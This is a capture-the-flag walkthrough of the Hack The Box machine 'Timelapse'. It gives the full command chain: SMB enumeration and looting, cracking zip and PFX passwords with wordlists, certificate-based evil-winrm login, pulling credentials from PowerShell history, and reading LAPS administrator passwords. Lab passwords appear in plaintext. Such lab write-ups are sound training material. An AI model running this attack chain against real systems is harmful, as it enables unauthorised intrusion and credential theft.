 # [Timelapse](https://app.hackthebox.com/machines/Timelapse)

```bash
nmap -p- --min-rate 10000 10.10.11.152 -Pn
```
![Alt text](img/image.png)


After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,88,135,139,389,445,464,593,636,3268,3269,5986,9389 10.10.11.152 -Pn 
```

![Alt text](img/image-2.png)

I just enumerate SMB share via `smbmap` command.

```bash
smbmap -H 10.10.11.152 -u 'guest'
```

![Alt text](img/image-1.png)


Let's connect into '**Shares**' share of SMB via `smbclient` tool.

```bash
smbclient -N //10.10.11.152/Shares 
```

Then, I want to grab all data from SMB share  by typing below commands.

```bash
recurse on
mask ""
prompt off
mget *
```

![Alt text](img/image-3.png)


I want to get data from 'winrm_backup.zip' file, for this, I just use `unzip` but it asks a password from me.

Let's crack this via using `fcrackzip` tool.

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt Dev/winrm_backup.zip
```

![Alt text](img/image-4.png)

Password is 'supremelegacy'.


I got **'legacyy_dev_auth.pfx'** a file from zip file.

![Alt text](img/image-5.png)


I found a [post](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) of IBM that I can extract certificate and keys from `.pfx` file.


I want to extract data from `.pfx` file via `openssl` command.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
```

![Alt text](img/image-6.png)

But it asks a password from me.

Let's crack this via `pfx2john` tool.

```bash
pfx2john legacyy_dev_auth.pfx > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-7.png)

Password is 'thuglegacy'.


Let's extract keys via `openssl` command.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
```

Then, dump real key by decrypting encrypted key.
```bash
openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key
```

Let's dump the certificate.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```


![Alt text](img/image-8.png)


Now, it's time to connect machine's port (5986) which run HTTP and SSL certificate is used here.

```bash
evil-winrm -i 10.10.11.152 -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```

user.txt

![Alt text](img/image-9.png)


I just looked for `Console_History.txt` file on machine and found on directory called 'C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine'.

![Alt text](img/image-10.png)

That's credentials of `svc-deploy` user.

svc-deploy: E3R$Q62^12p7PLlC%KWaxuaV


Let's connect into machine via this credentials.

```bash
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

But this cmdlet doesn't work, we need to add '-S' **option**, which means `SSL`

```bash
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

While I look at the privileges of this user called `svc_deploy` via `net user svc_deploy` command.

![Alt text](img/image-11.png)

As because I have 'LAPS_Readers' membership, I searched and know that I can read a 'ms-mcs-AdmPwd' which is password of administrator.


First, I learn computername via `crackmapexec` tool.

```bash
crackmapexec ldap 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --kdcHost 10.10.11.152 -M laps
```

![Alt text](img/image-12.png)


computer_name : DC01

Let's read .

```bash
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```

![Alt text](img/image-13.png)


I found credentials of `administrator` user.

administrator: 8(90F20lRBrY.@@!,BYYRZ3!

Let's connect via `evil-winrm` tool.

```bash
evil-winrm -i 10.10.11.152 -u administrator -p '8(90F20lRBrY.@@!,BYYRZ3!' -S
```


root.txt

![Alt text](img/image-14.png)